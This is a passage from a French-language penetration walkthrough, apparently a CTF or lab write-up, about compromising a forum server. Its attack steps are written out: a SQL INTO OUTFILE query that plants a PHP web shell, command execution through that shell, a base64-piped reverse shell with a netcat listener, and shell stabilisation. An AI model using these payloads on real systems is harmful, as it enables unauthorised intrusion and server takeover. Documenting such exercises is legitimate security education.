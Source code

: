 Et on tente d'explorer l'arborescence du forum, en mirroir avec ce qu'on a téléchargé.
Le seul chemin qui nous permettait à priori de lancer du php est le chemin `/forum/templates_c/<fichier>.php`

On tente alors d'ecrire a cet endroit, d'abord avec un `phpinfo()` pour tester
En supposant que le forum est rangé dans `/var/www/forum`

```SQL
SELECT '<?php phpinfo() ?>' INTO OUTFILE "/var/www/forum/templates_c/info_file.php"
```
Et ça fonctionne ! Acceder a `https://<ip>/forum/templates_c/info_file.php` renvoie bien les infos sur PHP

On fait alors la meme avec un fichier qui va ecouter le query parameter `cmd`,
l'executer dans un shell et nous renvoyer le resultat:

```SQL
SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE "/var/www/forum/templates_c/shell.php"
```
(trouvable dans `scripts/shell.php`)

On accede ensuite a `https://<ip>/forum/templates_c/shell.php?cmd=whoami` pour tester si ça fonctionne
on reçoit `www-data` ça fonctionne donc bien.

On sonde un peu pour avoir plus d'infos, notamment la présence ou non de python,
python est bien présent (`which python` retourne un resultat concluant)

On tente alors un script python de reverse shell connu (trouvable dans `scripts/shell.py.sh`),
mais par precaution pour eviter tout soucis avec des caracteres non gérés
on le passe en base64 puis on url encode la commande suivante

```
printf "<reverse shell en base64>" | base64 -d | sh
```
Ça décode code en base64 et puis ça le lance dans shell

De notre coté on lance netcat en mode écoute avec la commande suivante:
```
nc -nlvp <PORT>
```

On lance le script grace a notre fichier PHP et hop, ça fonctionne !

On stabilise le shell a l'aide du protocole suivant:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
puis CTRL-Z
```
stty raw -echo; fg
```
et enfin
```
export TERM=xterm
```

On a maintenant un reverse shell propre sur le serveur.

## Step 5 - Sanitize
